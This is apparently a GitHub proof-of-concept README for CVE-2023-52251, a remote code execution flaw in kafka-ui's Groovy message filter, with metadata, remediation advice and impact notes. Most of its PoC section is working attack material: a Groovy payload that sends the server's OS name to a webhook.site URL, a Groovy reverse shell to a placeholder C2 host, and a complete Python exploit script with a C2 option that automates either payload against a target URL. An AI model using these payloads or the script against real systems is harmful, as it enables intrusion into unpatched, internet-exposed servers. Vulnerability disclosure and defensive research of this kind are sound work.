

# CVE-2023-52251-POC

There is a Remote Code Execution vulnerability [provectus/kafka-ui](https://github.com/provectus/kafka-ui). There is no patch as of writing this, but the vendor is notified by us and the team over at [VINCE](https://kb.cert.org/vince) without any response. Report was sent Sep 27, 2023 to provectus both via email and github security. 

# Remediation

We suggest commenting out the entire groovy filter function/adding authentication as a minimum. 

## Metadata

| Title             | Value                                                                                                                                                                          |
| ----------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| CVSS String       | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:H                                                                                                                                   |
| CVE ID            | CVE-2023-52251                                                                                                                                                                 |
| CVS Description   | provectus kafka-ui 4.0.0 and later was discovered to contain a remote command execution (RCE) vulnerability via the q parameter at /api/clusters/local/topics/{topic}/messages |
| CVSS Score        | 9.x                                                                                                                                                                            |
| CWE               | CWE-94: Improper Control of Generation of Code ('Code Injection')                                                                                                              |
| Vendor            | Provectus                                                                                                                                                                      |
| Product           | kafka-ui                                                                                                                                                                       |
| Link              | <https://github.com/provectus/kafka-ui>                                                                                                                                        |
| Affected Versions | 0.4.x-0.7.1                                                                                                                                                                    |
| Patched Versions  | None                                                                                                                                                                           |
| Contributors      | [Thingstad](https://github.com/thingstad), [BobTheShoplifter](https://github.com/BobTheShoplifter)                                                                             |

### Details

Vulnerability Type: Remote Code Execution (RCE)

Affected Software: [Kafka-ui](https://github.com/provectus/kafka-ui)

Version: [0.4.x-0.7.1]

#### Vulnerability Description

There is no sanitization of the groovy script filter before it is executed. This allows an attacker to execute arbitrary code on the server.

#### Source Code Reference

In the function [groovyScriptFilter](https://github.com/provectus/kafka-ui/blob/master/kafka-ui-api/src/main/java/com/provectus/kafka/ui/emitter/MessageFilters.java#L41>) the "script" is not sanitized before being executed.

And is being evaled in the engine:

```java
var result = compiledScript.eval(bindings);
```

<https://github.com/provectus/kafka-ui/blob/master/kafka-ui-api/src/main/java/com/provectus/kafka/ui/emitter/MessageFilters.java#58>

### PoC

_Complete instructions, including specific configuration details, to reproduce the vulnerability._

Using the filter:

```groovy
new URL("https://webhook.site/xxxxxx-xxxx-xxxx-xxxx-xxxxxxxx/" + System.getProperty("os.name")).text
```



Will send a request to the webhook with the OS name of the server.


Further expanding on this, we can use the following payload to get a reverse shell:

```groovy
String host="xxx.xxx.xxx.xx";int port=8080;String cmd="/bin/sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

The payload is generated easily on <https://www.revshells.com/>.


And a poc in python has also been created:

```python
from time import sleep
import requests
import json
import urllib
import argparse

url = 'http://localhost:8080'
clusters = None
c2 = "xxx.xxx.xxx.xx"
port = "8080"
mode = "check"


def get_clusters():
    global clusters
    clusterfetch = requests.get(url + '/api/clusters')
    clusters = clusterfetch.json()


def get_topics(cluster):
    topicfetch = requests.get(
        url + f'/api/clusters/{cluster}/topics?showInternal=true&search=&orderBy=NAME&sortOrder=ASC')
    topics = topicfetch.json()['topics']
    return topics


def get_webhooks():
    webhookfetch = requests.post('https://webhook.site/token')
    webhook = 'https://webhook.site/' + webhookfetch.json()['uuid']+"/"
    print('URL Created: ' + webhook)
    token_id = webhookfetch.json()['uuid']
    headers = {"api-key": webhookfetch.json()['uuid']}
    return webhook, token_id, headers


def Exploit():
    try:
        get_clusters()

        cluster = clusters[0]['name']

        topics = get_topics(cluster)
        topic = topics[0]['name']

        webhook, token_id, headers = get_webhooks()

        checkpayload = 'new URL("'+webhook+'").text'

        rcepayload = 'String host="' + c2 + \
            '";int port='+port + \
            ';String cmd="/bin/sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();'

        payload = rcepayload if mode == "rce" else checkpayload

        r = requests.get(
            url + f'/api/clusters/local/topics/{topic}/messages?q={urllib.parse.quote(payload)}&filterQueryType=GROOVY_SCRIPT&attempt=2&limit=100&page=0&seekDirection=FORWARD&keySerde=String&valueSerde=String&seekType=BEGINNING', timeout=60)
        print(r.text)

        r = requests.get('https://webhook.site/token/' + token_id +
                         '/requests?sorting=newest', headers=headers)

        if r.json()['data'] == []:
            print("No rce found")
        else:
            for request in r.json()['data']:
                print(request)
                print("Rce found")

    except KeyboardInterrupt:
        print("KeyboardInterrupt")
        pass


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Kafka-ui4shell rce.')
    parser.add_argument('--mode', help='check, rce', required=False,
                        choices=['check', 'rce'], default="check")
    parser.add_argument(
        '--url', help='Target url. Example http://localhost:8080', required=True)
    parser.add_argument('--c2', help='C2 ip for RCE',
                        required=False),
    parser.add_argument('--c2port', help='File with urls', required=False)
    args = parser.parse_args()

    if args.mode == "rce":
        # Check if c2 and c2port are set
        if args.c2 and args.c2port:
            c2 = args.c2
            port = args.c2port
            mode = args.mode
            Exploit()
            exit()
        else:
            print("C2 and C2 port are required for RCE")
            exit()

    if args.url:
        url = args.url
        if args.mode:
            mode = args.mode
        if args.c2:
            c2 = args.c2
        if args.c2port:
            port = args.c2port
        Exploit()
        exit()

    else:
        parser.print_help()
```

### Impact

This vulnerability allows an attacker to execute arbitrary code on the server. This can be used to gain access to the server and further compromise the system. This vulnerability is exploitable by any user with access to the kafka-ui web interface.

At the time of writing, there are 1,000+ instances of kafka-ui exposed to the internet according to [Cencys](https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per_page=25&virtual_hosts=EXCLUDE&q=services.http.response.html_title%3A+%22UI+for+Apache+Kafka%22). All of these instances could be vulnerable to this attack.


This software is also likely to run on internal networks, where an attacker could gain access to the network and exploit this vulnerability.

### Contrubutors

Lars Thingstad - [@Thingstad](https://github.com/thingstad)
Daniel Christensen - [@BobTheShoplifter](https://github.com/BobTheShoplifter)

### References

- <https://cwe.mitre.org/data/definitions/94.html>
